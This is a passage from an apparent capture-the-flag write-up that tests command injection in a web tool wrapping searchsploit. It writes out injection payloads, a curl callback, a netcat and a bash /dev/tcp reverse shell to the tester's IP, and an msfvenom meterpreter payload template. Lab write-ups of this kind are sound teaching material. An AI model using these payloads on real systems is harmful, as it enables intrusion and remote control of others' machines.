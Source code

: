 This was the same for several other command injection payloads.

## sploits

The final tool seems to just run `searchsploit`:

![[Pasted image 20210612132124.png]]

We can try some basic command injections again. I submitted `ubuntu; id` in the field, and got this message back:

![[Pasted image 20210612132213.png]]

Interesting! There seems to be some sort of command injection protection. I tried a few different payloads:
- `ubuntu & id`
- `ubuntu && id`
- `ubuntu | base64`
- `'` (trying this was unlikely to cause a command injection, but it also gave the same message, suggesting any non-alphanumeric character was banned)

I also tried `ubuntu; curl http://10.10.16.211/test` to see if I got a hit on a `sudo nc -lnvp 80` listener despite the warning. This one actually worked!

![[Pasted image 20210612132748.png]]

I tried a python server:

![[Pasted image 20210612132814.png]]

So can we get a shell? I submitted `ubuntu; nc 10.10.16.211 80 -e /bin/bash`. I got a connection - but it didn't stay open:

![[Pasted image 20210612133521.png]]

Next I tried `ubuntu; bash -c 'bash -i >& /dev/tcp/10.10.16.211/80 0>&1'`, but I got the same result.

I spent a bit of time working on this, before moving on.

## CVEs in Binaries

At this point I wasn't sure where to go next, so wondered if there was a vulnerability in the binaries running on the box themselves. Here's what I thought the commands might look like:

```bash
# nmap
nmap --top-ports 100 [ip]

# payloads
msfvenom --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[lhost] LPORT=443 --template [template] -o /static/payloads/...

# sploits
searchsploit [term]
```
